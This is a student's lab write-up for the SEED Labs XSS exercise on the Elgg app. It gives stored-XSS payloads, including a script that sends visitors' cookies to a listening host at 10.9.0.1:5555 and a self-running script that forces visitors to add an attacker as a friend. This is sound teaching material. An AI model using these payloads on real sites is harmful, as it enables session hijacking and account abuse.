 # Work performed during the week #10

## CTF

### Goal
- 

### Challenge 1

- 

### Challenge 2

- 

## SeedLab

### Task 1

- For the task 1, we choose to login with the user Alice. After we logged in we went to edit profile and in the input for brief discreption we add the script ``<script>alert('XSS');</script>``.

- This way, every time the brief discreption field is asked for a web page, it will execute the alert we inserted. This justifies why even in the list of users the alert is triggered. Because this list not only the users, but the brief discreption of each user.

### Task 2

- Still using user Alice, we went to edit profile and in the input for brief discreption we add another script. Instead of the script ``<script>alert('XSS');</script>`` we use the script ``<script>alert(document.cookie);</script>``, so we can now print the cookies.

- The result of the alert is ``pvisitor=a6b4dccd-99d9-4a92-a50a-9a850b3592ab; Elgg=i0mr1o4tlhlimds4ncd0da5nb7``.

### Task 3

- In this task, instead of only the user can see the cookies, we want to send an HTTP request with the cookies appended to the request in order so see them.
- In order to do that we user a script that do that, `` <script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script> ``.
- This sript inserts the img tag, the browser tries to load the image from the URL in the src field, this results in an HTTP GET request sent to our machine, with the cookies to the port 5555 of our machine (with IP address 10.9.0.1).
- We use the program ``nc -lknv 5555``, to have a TCP server that listens for a connection on the specified port (5555).
- This program will print out the HTTP request with the cookies of the client.

### Task 4

- In this task, we will use a script that adds Samy as a friend to any other user that visits Samy’s page.
- First we find out how a legitimate user adds a friend in Elgg.
- We use Firefox’s ``HTTP inspection tool`` to help us get what are sent to the server when a user adds a friend.
- Inspectioning the contents of the HTTP GET request that was sent when the add friend button was clicked, we identify all the parameters in the request.
- Finding that the data is attached to the URL ``http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1642154629&__elgg_token=cjBSuLpxRMRNZH0Uoq_zug&__elgg_ts=1642154629&__elgg_token=cjBSuLpxRMRNZH0Uoq_zug``.
- The parameters are placed after the URL by``?`` and separated by ``&``, that parameters being, first ``friend=59`` and the variables ``__elgg_ts``, ``__elgg_token``. 
- The script create a GET request to the URL ``http://www.seed-server.com/action/friends/add`` with the parameters ``friend=59``, ``'__elgg_ts='+elgg.security.token.__elgg_ts;``, ``'__elgg_token='+elgg.security.token.__elgg_token;``.

```
<script type='text/javascript'> 
    window.onload = function () {
        var Ajax=null;
        var ts='&__elgg_ts='+elgg.security.token.__elgg_ts; ➀
        var token='&__elgg_token='+elgg.security.token.__elgg_token; ➁
        var sendurl='http://www.seed-server.com/action/friends/add?friend=59'+ts+token;
        Ajax=new XMLHttpRequest();
        Ajax.open('GET', sendurl, true);
        Ajax.send();
    }
</script>
```
- Sending out the same HTTP request as add-friend HTTP request.
- We placed the script in the ``About Me`` field of Samy’s profile page, after we clicking on option ``Edit HTML`` to enable Text mode.
- Now any other user that visits Samy’s page, will add Samy as a friend.

- Question 1:
The Lines ➀ and ➁, are needed for getting the values of the __elgg_ts and __elgg_token parameters, because they change every time a page is loaded so they need to be accessed dynamically in order to get the correct values.
- Question 2:
If the Elgg application only provided the Editor mode for the ``About me`` field, the attack would not be successful because the The Editor mode adds extra HTML code to the text typed into the field and we do not want any extra code added to our script in order to work.






